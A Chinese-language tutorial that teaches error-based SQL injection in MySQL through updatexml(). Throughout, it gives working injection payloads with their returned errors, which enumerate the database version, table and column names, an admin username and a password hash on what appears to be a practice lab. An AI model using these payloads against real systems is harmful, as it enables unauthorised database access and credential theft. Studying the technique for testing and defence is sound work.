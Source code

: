 ---

# 基于函数报错的信息获取

## 技巧思路

在 MYSQL 中使用一些指定的函数来**制造报错**，从而从报错信息中**获取设定的信息**  
**select**/**insert**/**update**/**delete**都可以使用报错来获取信息

## 背景条件:

后台**没有屏蔽**数据库报错信息，在语法发生错误时会**输出在前端**

## 三个常用的用来报错的函数

1. **updatexml()**:  
   函数是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数
2. **extractvalue()**:  
   函数也是 MYSQL 对 XML 文档数据进行查询的 XPATH 函数
3. **floor()**:  
   MYSQL 中用来取整的函数。

## 以 updatexml()为例

### 基本原理

- Updatexml()函数作用:改变(查找并替换)XML 文档中符合条件的节点的值
- 语法:UPDATEXML(xml_document, XPathstring, new_value)
- 第一个参数:fiedname 是 String 格式，为表中的字段名
- 第二个参数:XPathstring(Xpath 格式的字符串)。
- 第三个参数:new_value，String 格式，替换查找到的符合条件的
- Xpath 定位必须是有效的，否则则会发生错误
- **XPathstring 的内容如果是一个表达式，那么会先执行表达式，再把结果作为报错的内容输出**

### Select 下报错的利用演示

以字符型注入为例，查看数据库的版本 version

```sql
# payload:
kobe' and updatexml(1,version(),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '.26'
```

数据库的版本应该是 5.7.26,没有输出完整的版本号     
需要进行一点小小的处理

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,version()),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '~5.7.26'
```

这次输出了完整的版本号     
对比两次 payload，多了一个 concat 函数    
**concat**函数的作用：将多个字符串拼接成一个字符串，并**作为结果返回**     
在 ASCII 编码中，0x7e 代表波浪号`~`字符      
0x7e 在这里的作用是与版本号拼接，从而**使用 concat 函数输出完整的版本号**，所以其他的字符都是可以的（比如 0x7d 是`}`字符，可以去看看 ascii 编码表）      
在以上 payload 中，`version()`作为一个表达式被执行并且输出了结果，因此我们可以尝试一下其他的表达式，比如：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,database()),0)#
# 返回数据库名：XPATH syntax error: '~root'
kobe' and updatexml(1,concat(0x7e,user()),0)#
# 返回结果用户名：XPATH syntax error: '~root@localhost'
```

或者我们可以再进一步尝试：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root')),0)#
```

输入 payload,返回信息：

```sql
Subquery returns more than 1 row
```

```sql
# 执行的表达式：
select table_name from information_schema.tables where table_schema='root'
```

这个表达式是查询 root 数据库中的所有表名，但是报错信息表示只能输出一条数据，因此我们需要修改一下表达式：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root' limit 0,1)),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '~httpinfo'
```

我们在 payload 中添加了`limit 0,1`,表示从 0 位置开始取一条数据，因此输出了第一个表名`httpinfo`     
改成`limit 1,1`，输出第二个表名，以此类推，可以输出所有表名    
OK 了老铁们，到这里就很清楚了，参考**通过information_schema拿下数据库案例演示.md**，我们**替换表达式就能得到想要的数据了**

## 进一步演示

```sql
# 获取表名
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~httpinfo'

```

```sql
# 获取列名
kobe' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~USER'
```

```sql
# 获取数据
kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~admin'
kobe' and updatexml(1,concat(0x7e,(select password from users where username='admin' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~e10adc3949ba59abbe56e057f20f883'
```
